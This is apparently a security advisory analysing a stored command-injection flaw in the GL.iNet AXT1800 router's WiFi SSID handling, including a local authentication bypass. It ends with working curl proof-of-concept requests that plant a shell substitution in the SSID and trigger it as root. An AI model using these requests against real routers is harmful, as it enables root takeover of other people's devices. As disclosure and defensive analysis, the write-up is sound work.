

# GL.iNet AXT1800 WiFi SSID Stored Command Injection Vulnerability

**Firmware Version**: 4.8.2-0904
**Vulnerability Type**: Stored OS Command Injection (CWE-78)
**Severity**: HIGH (CVSS 3.1: 7.2)
**Attack Prerequisites**: Post-authentication (admin privileges), or local bypass within LAN

---

## Vulnerability Summary

The WiFi configuration RPC interface `wifi.set_config` on the GL.iNet AXT1800 router is vulnerable to stored command injection. An attacker can set a malicious SSID containing shell metacharacters, which triggers arbitrary command execution with root privileges during subsequent WiFi enable/disable operations.

---

## Root Cause Analysis

### 1. Framework Validator Bypassed by Schema Override

The RPC framework includes a built-in generic parameter validator that matches undefined string parameters against `^[%w%.%s%-_:#/]-$`, which blocks most shell metacharacters. However, the WiFi module's schema file explicitly overrides this protection:

**File**: `/usr/share/gl-validator.d/wifi.lua`

```lua
return {
  set_config = {
    hwmode = "^%w[%w/]+$",
    ssid = ".+",            -- Matches any non-empty string, including all shell metacharacters
    key = ".+"
  }
}
```

`ssid = ".+"` replaces the generic validator, allowing `$`, `` ` ``, `"`, `;`, `|`, and other characters to pass through.

### 2. Handler Only Validates Type and Length

**File**: `/usr/lib/oui-httpd/rpc/wifi.unluac` Line 1150

```lua
if ssid ~= nil and not validator.base(ssid, "string", true, 1, 32) then
    return rpc.ERROR_CODE_INVALID_PARAMS, "invalid ssid"
end
```

`validator.base(ssid, "string", true, 1, 32)` only checks:
- Type must be `string`
- Length must be between 1 and 32 characters
- **No character content validation is performed**

### 3. Storage Phase — SSID Written to UCI Without Sanitization

**File**: `/usr/lib/oui-httpd/rpc/wifi.unluac` Lines 1311-1368

```lua
local function set_opt(name)
    local value = param[name]
    if value == nil then return end
    if type(value) == "boolean" then
        value = value and 1 or 0
    end
    c:set("wireless", iface_name, name, value)  -- Written to UCI as-is
end

set_opt("ssid")  -- Line 1368: Malicious SSID stored to /etc/config/wireless
```

Line 1386 `c:commit("wireless")` persists the data to flash storage.

### 4. Trigger Phase — SSID Concatenated into Shell Command

**File**: `/usr/lib/oui-httpd/rpc/wifi.unluac` Lines 1321-1329

```lua
if param.enabled ~= nil then
    local wifi_ssid = c:get("wireless", iface_name, "ssid") or "Wifi"  -- Reads the stored malicious value
    local cmd
    if param.enabled then
        cmd = ". /lib/functions/gl_util.sh;mcu_send_message \"" .. wifi_ssid .. " ON\""
    else
        cmd = ". /lib/functions/gl_util.sh;mcu_send_message \"" .. wifi_ssid .. " OFF\""
    end
    ngx.pipe.spawn(cmd)  -- Executed via sh -c, with root privileges
end
```

`ngx.pipe.spawn(string)` is equivalent to `sh -c "string"`. The SSID is directly concatenated into a shell command within double quotes, causing `$(...)` and backticks to be interpreted and executed by the shell.

### 5. Complete Data Flow

```
Request 1: params.ssid = "$(touch /tmp/hack.txt)"
  → Framework validator: schema defines ".+" → PASS
  → validator.base: type=string, length=24 (1≤24≤32) → PASS
  → c:set("wireless", "default_radio0", "ssid", "$(touch /tmp/hack.txt)")
  → c:commit("wireless")  → Persisted to /etc/config/wireless

Request 2: params.enabled = true
  → wifi_ssid = c:get("wireless", "default_radio0", "ssid")  → "$(touch /tmp/hack.txt)"
  → cmd = ". /lib/functions/gl_util.sh;mcu_send_message \"$(touch /tmp/hack.txt) ON\""
  → ngx.pipe.spawn(cmd)  → Executed via sh -c
  → Shell expands $(...) → Executes touch /tmp/hack.txt (root privileges)
```

---

## Local Authentication Bypass

The `access` function in `rpc.lua` contains a local access bypass logic:

```lua
local session = rpc.session()
if session.is_local and headers.glinet then
    return true  -- Skips all ACL checks
end
```

When the request originates from `127.0.0.1` (or within the LAN) and carries the `glinet: 1` HTTP header, any RPC method can be invoked without a valid session token.

---

## QEMU Reproduction Steps

### Environment Setup

The firmware uses AArch64 architecture, emulated with `qemu-system-aarch64`.

#### 1. Create Wireless Configuration

QEMU lacks real wireless hardware, so the configuration must be created manually (real devices ship with this pre-configured):

```bash
cat > /etc/config/wireless << 'EOF'
config wifi-device 'radio0'
    option type 'mac80211'
    option band '5g'
    option channel 'auto'

config wifi-iface 'default_radio0'
    option device 'radio0'
    option network 'lan'
    option mode 'ap'
    option ssid 'GL-AXT1800'
    option encryption 'sae-mixed'
    option key 'goodlife'
    option disabled '0'
EOF
```

#### 2. Start Services

```bash
ubusd &
mkdir -p /var/run /var/log/nginx /var/lib/nginx /tmp /var/run/ubus
/usr/bin/eco /usr/sbin/gl-ngx-session &
sleep 2
sh /etc/uci-defaults/80_nginx-oui  # Required on first boot
nginx -c /etc/nginx/nginx.conf
```

### Vulnerability Verification

#### Step 1: Store Malicious SSID

```bash
curl -s http://127.0.0.1/rpc -H "glinet: 1" \
  -d '{"jsonrpc":"2.0","id":1,"method":"call","params":["","wifi","set_config",{"iface_name":"default_radio0","ssid":"$(touch /tmp/hack.txt)","apply":false}]}'
```

Verify the SSID has been stored:

```bash
uci get wireless.default_radio0.ssid
# Output: $(touch /tmp/hack.txt)
```

#### Step 2: Trigger Command Execution

```bash
curl -s http://127.0.0.1/rpc -H "glinet: 1" \
  -d '{"jsonrpc":"2.0","id":2,"method":"call","params":["","wifi","set_config",{"iface_name":"default_radio0","enabled":true}]}'
```

#### Step 3: Verify RCE

```bash
ls -la /tmp/hack.txt
# File exists → Command executed successfully as root
```



